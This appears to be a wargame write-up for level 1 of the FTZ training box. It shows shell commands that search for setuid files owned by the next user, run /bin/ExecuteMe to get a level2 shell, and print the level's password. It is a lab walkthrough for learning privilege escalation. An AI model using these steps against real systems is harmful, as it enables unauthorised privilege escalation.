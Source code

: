 # Level1

## This level's goal

- SetUID

***
```
[level1@ftz level1]$ ls -l  
total 12  
-rw-r--r--    1 root     root           47 Apr  4  2000 hint  
drwxr-xr-x    2 root     level1       4096 Dec  7  2003 public_html  
drwxrwxr-x    2 root     level1       4096 Jun  3 11:58 tmp  
```
```
[level1@ftz level1]$ cat hint

Level2 권한에 setuid가 걸린 파일을 찾는다.
```

```
[level1@ftz level1]$ find / -user level2 -perm -4000 2>/dev/null
/bin/ExecuteMe
```

```
[level1@ftz level1]$ ls -l /bin/ExecuteMe  
-rwsr-x---    1 level2   level1      12868 Aug 19  2014 /bin/ExecuteMe
```

```
[level1@ftz level1]$ /bin/ExecuteMe
```

`[level2@ftz level2]$ bash`

```
[level2@ftz level2]$ my-pass
Level2 Password is "hacker or cracker".
```
